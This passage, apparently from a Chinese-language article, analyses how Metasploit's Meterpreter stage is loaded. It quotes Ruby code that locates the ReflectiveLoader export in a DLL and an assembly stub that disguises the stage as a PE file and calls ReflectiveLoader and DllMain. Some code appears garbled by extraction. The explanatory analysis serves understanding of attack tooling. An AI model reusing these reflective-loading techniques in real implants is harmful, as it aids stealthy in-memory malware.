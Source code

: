 parse_pe函数通过遍历dll的导出表得到名字是ReflectiveLoader函数的偏移

```
def load_rdi_dll(dll_path) 
    dll = '' 
    ::File.open(dll_path, 'rb') { |f| dll = f.read } 
    offset = parse_pe(dll) 
    unless offset 
        raise "Cannot find the ReflectiveLoader entry point in #{dll_path}" 
    end 

    return dll, offset 
end 

def parse_pe(dll) 
    pe = Rex::PeParsey::Pe.new(Rex::ImageSource::Memory.new(dll)) 
    offset = nil 

    pe.exports.entries.each do |e| 
        if e.name =~ /^\\S\*ReflectiveLoader\\S\*/ 
        offset = pe.rva_to_file_ofset(e.rva) 
        break 
    end 
end 
    offset 
end

```

我们看一下asm_invoke_metsrv函数，这个函数调用了ReflectiveLoader函数，接着定位到了stages结束的地址。

```
dec ebp ; 'M'//无效代码 
pop edx ; 'Z'//无效代码 
call $+5 ; call next instruction 
pop ebx ; get the current location (+7 bytes) 
push edx ; restore edx 
inc ebp ; restore ebp 
push ebp ; save ebp for later 
mov ebp, esp ; set up a new stack frame 
; Invoke ReflectiveLoader() 
; add the offset to ReflectiveLoader() (0x????????) 

add ebx, #{"0x%.8x" % (opts[:rdi_offset] - 7)} 
call ebx ; invoke ReflectiveLoader() 
; Invoke DllMain(hInstance, DLL_METASPLOIT_ATTACH, config_ptr) 
; offset from ReflectiveLoader() to the end of the DLL 

add ebx, #{"0x%.8x" % (opts[:length] - opts[:rdi_offset])}

```

前两行的代码，没什么实际功能，只是为了stages能被识别为pe文件，因为这两个汇编的字节码是0x4d 0x5a对应pe结构中的MZ
